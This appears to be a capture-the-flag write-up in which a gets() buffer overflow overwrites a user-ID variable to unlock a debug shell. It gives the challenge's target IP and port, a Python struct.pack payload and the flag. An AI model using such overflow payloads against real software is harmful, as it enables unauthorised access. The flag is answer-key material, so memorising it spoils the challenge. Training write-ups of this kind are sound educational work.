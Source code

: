 ### **Challenge Name: Exploit 200 - Overrun and Outdone**

---

### **Description**

This exploit challenge revolves around exploiting a buffer overflow to gain access to a hidden "debug mode" and execute a shell. The objective is to bypass restrictions and modify the `u.id` variable to access the debug functionality.

#### **Target Details**
- **IP:** `35.184.182.18`
- **Port:** `32001`

#### **Files Provided**
- [Exploit200-1_source.c](Resources/Exploit200-1_source.c)

---

### **Approach**

#### **Step 1: Analyze the Source Code**
The source code (`Exploit200-1_source.c`) revealed:
1. A vulnerable function using `gets()` to handle input.
2. A `u.id` variable that determines the user level:
   - **Guest:** Default value.
   - **Admin (Debug mode):** Triggered when `u.id` equals `80085`.

#### **Step 2: Buffer Overflow**
Calculated the buffer size using:
```bash
python -c "print('A'*28)" | ./Exploit200-1
```
Identified that **28 bytes** fill the buffer, and the next bytes overwrite `u.id`.

#### **Step 3: Payload Construction**
The goal was to overwrite `u.id` with `80085` (0x138BD in hexadecimal). Constructed the payload using Python and `struct.pack` to ensure proper little-endian representation:
```python
import struct

buffer = b"A" * 28
value = struct.pack("<I", 80085)  # Little-endian format
payload = buffer + value

print(payload)
```

#### **Step 4: Execute Payload**
Injected the payload using:
```bash
python payload.py
```

#### **Step 5: Shell Access**
Once `u.id` was successfully overwritten, the debug mode was triggered, granting shell access. Retrieved the flag by navigating the file system:
```bash
ls
cat Exploit200-1_flag.txt
```

---

### **Flag**

`poctf{uwsp_17_w45_7h3_b357_0f_71m35}`

---